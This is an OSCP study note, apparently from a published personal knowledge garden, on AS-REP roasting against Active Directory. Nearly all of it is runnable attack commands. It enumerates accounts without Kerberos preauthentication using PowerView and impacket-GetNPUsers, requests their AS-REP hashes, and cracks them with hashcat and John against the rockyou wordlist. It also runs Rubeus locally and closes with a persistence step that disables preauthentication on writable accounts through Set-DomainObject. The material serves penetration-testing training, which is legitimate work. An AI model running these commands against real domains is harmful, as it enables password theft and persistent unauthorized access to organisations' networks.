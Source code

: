 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/n-active-directory-attacks/3-as-rep-roasting/"}
---
```


-------
- AS-REP, or Kerberos preauthentication, prevents offline password guessing and attacks against the server responses.
- However, if "_Do not require Kerberos preauthentication_" is enabled for specific users for applications to function properly this can be done.
- In some situations it may be possible to enable it manually also.
-----------
### Enumerate Kerberos preauth disabled:
- Locally on Windows:
```
Get-NetUser -PreauthNotRequired -Verbose | select cn
```
- Remote from kali:
```
impacket-GetNPUsers -dc-ip 192.168.50.70 corp.com/pete
```
---------------------
### Remote AS-REP Roasting with Impacket:
- Uses ip address for domain controller and user to authenticate
1. Launch roast:
```
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
```
2. Crack hash:
```
#Hashcat:
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

#John:
john --wordlist=passwords_kerb.txt hashes.asreproast
```

-------
### Local AS-REP Roasting with Rubeus:
1. Launch roast:
```
.\Rubeus.exe asreproast /nowrap
```
2. Crack hash on kali:
```
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

-----------
### Targeted AS-REP Roasting Abuse/Persistence:
- Set preauth not required for users where we have write privileges:
```
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```
